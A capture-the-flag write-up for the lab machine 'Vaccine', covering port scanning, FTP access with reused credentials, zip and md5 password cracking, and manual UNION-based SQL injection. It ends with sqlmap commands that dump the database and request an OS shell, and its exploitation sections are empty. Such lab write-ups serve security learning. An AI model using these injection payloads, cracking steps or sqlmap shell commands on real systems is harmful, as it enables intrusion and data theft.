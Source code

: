# Starting Point - Vaccine

## Enumeration

```
rustscan 10.10.10.46 -- -sC -sV -o port_scan

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


### Examine Port 80 - Apache Server

![](pics/apache_server.png)

Seems to be a login website. Using the credentials `admin:MEGACORP_4dm1n!!` of the previous challenge fails. So this is a dead end for now. 

Let's try to scan the server for other directories. For this, we can use a tool like `dirb`, `dirbuster` or `gobuster`

```
gobuster dir -u "http://10.10.10.46" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

While this is running, we can check out the open FTP port.


### Examine Port 21 - FTP

In the previous challenge, we found some FTP credentials in the Filezilla configs that belonged to root. 

```
<User>ftpuser</User>
<Pass>mc@F1l3ZilL4</Pass>
```

![](pics/ftp_login.png)

And indeed! We can login.

In there, we find a file called `backup.zip`. 
```
-rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
```
Using the `GET` command we can download it to our local machine. Unfortunately, the zip file is password protected.

However, we can try to bruteforce the password with `john`.
Therefore, we first have to use the tool `zip2john`. It converts the zip file into a understandable format for john.

```
backup.zip:$pkzip2$2*2*1*0*8*24*3a41*5722*543fb.....
```

Afterwards, we can use `john` to crack the hash.

```
$ john backup_hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)
1g 0:00:00:00 DONE (2021-01-02 12:26) 50.00g/s 44800p/s 44800c/s 44800C/s michelle1..ilovegod
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Success! The password for the zip is `741852963`.

Unzipping the file, we receive two files:

1) index.php
2) style.css

Opening the `index.php` file we see following:
```html
</head>
  <h1 align=center>MegaCorp Login</h1>
<body>
<!-- partial:index.partial.html -->
<body class="align">
```
That seems familiar, right? That's the login page on Port 80.
Let's further investigate the file.

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```
The php code reveals the valid username (`admin`) and the md5 hash of the password (`2cb42f8734ea607eefed3b70af13bbd3`). So all that's left, is to crack the md5 hash. 

For such a task I usually use [crackstation](https://crackstation.net/).

![](pics/crackstation.png)

There we have it! The password is `qwerty789`

## Further Examine Port 80 - Login Page

Using the credentials `admin:qerty789` we can successfully login and get access to the MegaCorp Car Catalogue (/dashboard.php).

![](pics/megacorp_car_catalogue.png)

The dashboard contains information about several Cars. I'm assuming they are loaded from a database. Furthermore, the website only has a SEARCH functionality. Sourcecode, cookies etc did not reveal any interesting information. So what can you do with that SEARCH field?

Searching for "ELIXIR" (one of the car names), changes the dashboard content, so that only Elixir is shown. If we search for "SPORTS" (one of the car types), the page stays empty.

So my guess is that, once we hit that SEARCH button, an SQL query is sent to the database, to retrieve all results with the attribute `carname/car/name` set to our value. From an attacker's perspective, this can be vulnerable to SQL Injection if not implemented carefully. So let's try that.

![](pics/test_sqli.png)

By inserting a single `'`character into the search field and pressing enter, we get following error message: `ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^`. So here we have the proof, that the search field is indeed vulnerable to SQL injection. Let's gain information about the database by following these steps:

1) Find out how many columns are in the `cars` table.
  
    By injecting `' ORDER BY 1--`, and increasing the number until we receive an error, tells us how many columns exist. In our case, we get the error with `' ORDER BY 6--`. Therefore, we know the `cars` table has 5 columns.

2) Gain information about the column types

    Now that we know how many columns there are, we can extract further information with the [SQL Injection UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks). 

    - `' UNION SELECT 'a', NULL, NULL, NULL, NULL --` : ERROR
    - `' UNION SELECT NULL, 'a', NULL, NULL, NULL --` : VALID
    - `' UNION SELECT NULL, NULL, 'a', NULL, NULL --` : VALID
    - `' UNION SELECT NULL, NULL, NULL, 'a', NULL --` : VALID
    - `' UNION SELECT NULL, NULL, NULL , NULL, 'a' --` : VALID

    From this, we knw that we can extract valuable information when modifying index 1-4 of the UNION query.

3) Extract valuable information (table names etc)

    Using the [Portswigger SQLI Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), we can retrieve a lot of information about the database system:
    
    - Version: `' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --`: PostgreSQL 11.5 (Ubuntu 11.5-1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.1.0-9ubuntu2) 9.1.0, 64-bit
    - Table names: `' UNION SELECT NULL, table_schema, table_name, NULL, NULL FROM information_schema.tables --`


This all could be have been done automatically by using `sqlmap`, but for the sake of learning: keep doing it manually!

```
sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=vmnafl0uct1r97s1k5bkpoiopg" --dump-all --tamper=space2comment

and 

sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=vmnafl0uct1r97s1k5bkpoiopg" --os-shell
```

## Exploitation

## Post Exploitation